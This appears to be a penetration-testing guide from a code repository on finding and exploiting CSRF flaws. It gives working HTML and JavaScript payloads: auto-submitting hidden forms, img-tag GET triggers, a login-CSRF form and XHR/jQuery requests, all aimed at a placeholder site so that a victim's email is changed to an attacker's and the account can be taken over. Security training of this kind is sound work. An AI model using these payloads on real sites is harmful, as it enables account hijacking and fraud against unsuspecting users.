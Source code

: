 # Finding and exploiting CSRF vulnerabilities

## Finding CSRF vulnerabilities

1. **Identify state-changing actions** within the web application that alter user data or perform important operations, such as modifying personal details, processing purchases, transferring funds, or executing any API requests that update server-side resources. These actions are potential targets for CSRF attacks.
1. **Check for unprotected forms** within the application that submit data without a CSRF token or the `SameSite` cookie attribute, as this could expose them to CSRF attacks. CSRF tokens are server-generated unique values included in form submissions to prevent unauthorized request execution. To detect these weaknesses, use a web proxy tool like Burp Suite or OWASP ZAP to **intercept and analyze HTTP requests** examining request headers, cookies, and parameters.
1. **Test to confirm the CSRF vulnerability** by crafting a malicious request within an HTML page, utilizing a `form` or `image` tag to send an unauthorized request to the application:

    ```javascript
    <form action="https://vulnerable.tbl/email/update" method="POST">
        <input type="hidden" name="email" value="attacker@attacker.tbl">
        <input type="submit" value="Submit">
    </form>
    ```

    Visiting the crafted malicious page while authenticated in the target application will trigger the CSRF attack.

1. Additionally, as part of in-depth research, leverage a vulnerability scanner for automatic CSRF detection, inspect source code if accessible, perform SAST to uncover security risks, and evaluate the effectiveness of CSRF protections by attempting bypass techniques.

## Exploiting CSRF via state-changing requests (usually POST)

* CSRF attacks using the POST method are among the most common forms of CSRF. These attacks occur when a web application fails to implement security mechanisms (i.e, implementing CSRF tokens or using the `SameSite` attribute on cookies) to protect against unauthorized requests.
* An attacker can exploit this by crafting malicious HTML content that automatically triggers a POST request as soon as the user's browser renders the page.
  * Since browsers allow automatic form submission, attackers can initiate POST requests without user interaction, as long as the victim is logged into the targeted website.
* Unlike GET-based CSRF, POST-based CSRF usually allows attackers to target endpoints that require more structured input, which are typically used for state-changing operations.
* As example, consider a scenario where a web application has a vulnerable `/email/update` endpoint that permits users to update their email address via a POST request, requiring only the `email` parameter. An attacker could craft the following HTML page to exploit this weakness:

    ```html
    <html>
        <body>
            <form action="https://vulnerable.tbl/email/update" method="POST">
                <input type="hidden" name="email" value="attacker@attacker.tbl" />
            </form>
            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html>
    ```

## Exploiting CSRF via GET requests

* CSRF vulnerabilities may also be exploited via the GET HTTP method if endpoints permit state-changing operations through GET requests without proper protections.
* GET requests are typically intended for retrieving data, but if a web application uses GET for actions that modify state (e.g., changing user information or making updates), it also creates a significant security risk.
* In the following example, when the user clicks on the following link, its email will be changed to `attacker@attacker.tbl`, making the attacker gain control over the account:

    ```http
    https://vulnerable.tbl/email/update?email=attacker@attacker.tbl
    ```

  * Clicking the link while authenticated to `vulnerable.tbl` causes the browser to automatically send a GET request to the exposed endpoint.
* CSRF can also be exploited via the GET method by embedding the malicious link in an HTML element like an `<img>` tag. When the victim accesses a malicious website, the browser automatically processes the HTML and issues the GET request to the vulnerable endpoint without requiring user interaction:

    ```html
    <img src="https://vulnerable.tbl/email/update?email=attacker@attacker.tbl">
    ```

  * The request sent, containing the victim's authenticated session cookies, would trigger the state-changing operation, altering the user's email address to `attacker@attacker.tbl` without the victim's awareness or approval.
* As an example, after updating the victim’s email, the attacker could reset the password through the new email, effectively gaining complete control of the account.

## Exploiting CSRF via session fixation

* `Session fixation` is an attack where an attacker forces a user to use a predetermined session, effectively hijacking the user's session.
* In certain scenarios, a CSRF attack can be used to log a user into an account controlled by the attacker, overwriting any existing session the user may have had. This results in the user unknowingly operating under the attacker's session.
* Unlike traditional CSRF attacks that focus on unauthorized state changes, this variant manipulates user authentication, potentially leading to account hijacking, data exposure, or session-based tracking.
* The attack follows these steps:
  1. The attacker pre-creates an account (e.g., `attacker@attacker.tbl`) on the targeted vulnerable website.
  1. The attacker constructs a malicious webpage designed to force victims into logging into this account:

      ```html
      <form action="https://vulnerable.tbl/login" method="POST">
          <input type="hidden" name="email" value="attacker@attacker.tbl" />
          <input type="hidden" name="password" value="password123" />
      </form>
      <script>
          document.forms[0].submit();
      </script>
      ```

  1. When a user visits this page, their browser automatically submits the form, initiating a login request. If the server responds with:

      ```http
      Set-Cookie: session=attacker_account_session_id; Secure; HttpOnly; Path=/
      ```

      The browser overwrites the victim's existing session cookie with the attacker account's session.

  1. Since the victim remains unaware of this manipulation, they may continue using the trusted application, believing they are still logged into their own account. However, all actions they perform are tied to the attacker's session.
* This technique is particularly dangerous in applications where users store personal information, payment details, or sensitive messages, as any data entered while under the attacker's session will be accessible to them.
* Attackers can also leverage this approach to track user interactions and harvest sensitive data, initiate fraudulent transactions using stored payment details, exploit account linking mechanisms to permanently associate the victim's actions with the attacker's controlled session.
  > :older_man: However, there is a shift in behavior. Historically, the absence of the `SameSite` attribute on cookies was treated as `SameSite=None` by most browsers. Recognizing the security risks of this approach, modern browsers now default to `SameSite=Lax`, which would prevent this attack. Although this change enhances security, depending on browser defaults is not considered a reliable security practice.

## Common CSRF payloads

### HTML4 and HTML5 not requiring user interaction

|HTML tags|
|:--:|
|```<iframe src="URL" />```,<br/> ```<script src="URL" />```,<br/> ```<input type="image" src="URL" alt="" />```,<br/> ```<embed src="URL" />```,<br/> ```<audio src="URL" />```,<br/> ```<video src="URL" />```,<br/> ```<source src="URL" />```,<br/> ```<video poster="URL" />```,<br/> ```<link rel="stylesheet" href="URL" />```,<br/> ```<object data="URL" />```,<br/> ```<body background="URL" />```,<br/> ```<div style="background:url("URL")" />```,<br/> ```<style>body { background:url("URL") } </style> />```|

### HTML and JavaScript not requiring user interaction

```html
<form action="https://vulnerable.tbl/email/update" method="POST" id="CSRF" style="display: none;">
  <input name="email" value="attacker@attacker.tbl"/>
</form>
<script>document.getElementById("CSRF").submit()</script>
```

### JavaScript not requiring user interaction

  ```javascript
  <script>
    const url = "https://vulnerable.tbl/email/update";
    const params = "email=attacker@attacker.tbl";
    const CSRF = new XMLHttpRequest();
    CSRF.open("POST", url, false);
    CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    CSRF.send(params);
  </script>
  ```

  ```javascript
  $.ajax({
    type: "POST",
    url: "https://vulnerable.tbl/email/update",
    data: "email=attacker@attacker.tbl",
  });
  ```

